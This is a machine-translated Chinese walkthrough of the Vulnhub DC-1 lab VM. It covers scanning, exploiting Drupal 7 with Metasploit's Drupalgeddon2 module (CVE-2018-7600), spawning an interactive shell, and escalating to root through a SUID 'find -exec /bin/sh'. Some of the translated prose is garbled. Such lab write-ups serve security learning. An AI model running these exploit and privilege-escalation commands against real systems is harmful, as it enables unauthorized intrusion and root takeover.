# Vulnhub 报道—DC-1

> 原文：<https://infosecwriteups.com/vulnhub-writeup-dc-1-37dcf92b456a?source=collection_archive---------0----------------------->

***这是该机***[***DC-1:1***](https://www.vulnhub.com/entry/dc-1-1,292/)***出自***[***Vulnhub***](https://www.vulnhub.com)***。***

# **文摘**

DC-1 是一个基于 Linux 平台的初学者友好的机器。drupal 7 作为 web 服务器运行，利用 Drupal 7 漏洞，我们获得了初始外壳，并利用 chmod 位获得了根。

> **机器作者:**[**dcau 7**](https://twitter.com/DCAU7) **机器类型:Linux
> 机器级别:初学者**

[](https://twitter.com/DCAU7) [## 💧DCAU (@DCAU7) |推特

### 来自的最新推文💧DCAU (@DCAU7)。有时候我会做些事情。有时候我不知道。澳大利亚

twitter.com](https://twitter.com/DCAU7) 

# **专有技术**

*   Nmap
*   Searchsploit

# **吸收技能**

*   [CVE-2018–7600](https://www.cvedetails.com/cve/CVE-2018-7600/)
*   Drupal Drupalgeddon 2 表单 API 属性注入
*   使用*查找*提升 Linux 权限
*   下垂扫描

# **安装、联网和查找 IP**

**安装:-** 我正在使用 Parrot OS 作为主机，并使用虚拟箱来安装易受攻击的机器(DC-1:1)。

**联网:-** 我使用桥接适配器连接易受攻击的机器和主机。



**虚拟框设置**

**查找 IP:-**

```
**$**netdiscover
```



man netdiscover



192.168.0.1 是路由器 IP，192.168.0.191 是主机

**192.168.0.185** 是易受攻击的机器，运行快速 nmap 扫描来确认它。

# 扫描网络

```
$nmap -sC -sV 192.168.0.185
```



man nmap



人工结果

端口 80 上运行着 Drupal 服务器。Nmap 显示版本是 l 7，让我们用 **Droopescan 确认一下。**

Droopescan 是一个基于 python 的扫描器，帮助安全研究人员发现已安装的 Drupal 版本中的基本风险。

[](https://github.com/droope/droopescan) [## droope/droopescan

### 一个基于插件的扫描器，帮助安全研究人员识别 Drupal 的问题

github.com](https://github.com/droope/droopescan) 

```
$droopescan scan drupal -u http://192.168.0.185/
```



droopescan 结果

Droopescan 可以给出可能的版本 **7.22 — 7.26** 。

```
$searchsploit drupal 7
```



人工搜索



搜索结果

 [## CVE-2018-7600 Drupal Drupalgeddon 2 表单 API 属性注入| Rapid7

### 这个模块利用了表单 API 中的 Drupal 属性注入。

www.rapid7.com](https://www.rapid7.com/db/modules/exploit/unix/webapp/drupal_drupalgeddon2) 

```
msf5 >search Drupalgeddon
```



正在搜索 msf 模块

# 剥削

```
msf5 > use exploit/unix/webapp/drupal_drupalgeddon2 
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set RHOSTS 192.168.0.185
RHOSTS => 192.168.0.185
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > exploit
meterpreter > sysinfo
```



msf 漏洞利用

获取交互式外壳

```
$meterpreter > shell
/bin/bash -i 
```

**/bin/bash -i** 给出一个交互式 shell，来自 metasploit :D 的花式命令



使用 msf 的 shell

```
$meterpreter > shell
python -c ‘import pty; pty.spawn(“/bin/bash”)’
```

在 python pty 模块的帮助下，我们可以得到交互式外壳。



使用 pty python 的 shell

有许多方法可以获得交互式外壳，请随意评论您获得交互式外壳的方法。:)

# **权限升级**

[](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/) [## 基本 Linux 权限提升

### 在开始之前，我想指出——我不是专家。据我所知。

blog.g0tmi1k.com](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/) 

```
$ find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null
```



从上面的文章中截取



SUID 位的结果

**发现**看起来不一样我们可以对结果执行命令，让我们试试这个

ls /root 给了我们被拒绝的权限，但是在 *find /root* 的帮助下，我们可以看到文件。



查找/根

```
$find /root/thefinalflag.txt -exec cat {} \;
```



人类发现



拥有最终的旗帜

```
$find /root/thefinalflag.txt -exec /bin/sh \;
```



*感谢阅读！如果你喜欢这个故事，请点击**👏 ***按钮，分享*** *帮助他人！欢迎发表评论*💬*下图。有反馈？下面我们连线上* [*推特*](https://twitter.com/yashanand155) *。**

## *❤️由[增加到](https://twitter.com/yashanand155)*

*[](https://twitter.com/yashanand155) [## inc0gnito (@yashanand155) |推特

### CTF 玩家| | hack the box | | CTFs with @ ABS 0 lut 3 pwn 4g 3🚩。新德里…

twitter.com](https://twitter.com/yashanand155) [](https://medium.com/@yashanand155) [## 增量中等

### 从 inc0gnito 介质上读取文字。CTF ||黑盒子||倒车。每天，成千上万的人…

medium.com](https://medium.com/@yashanand155)*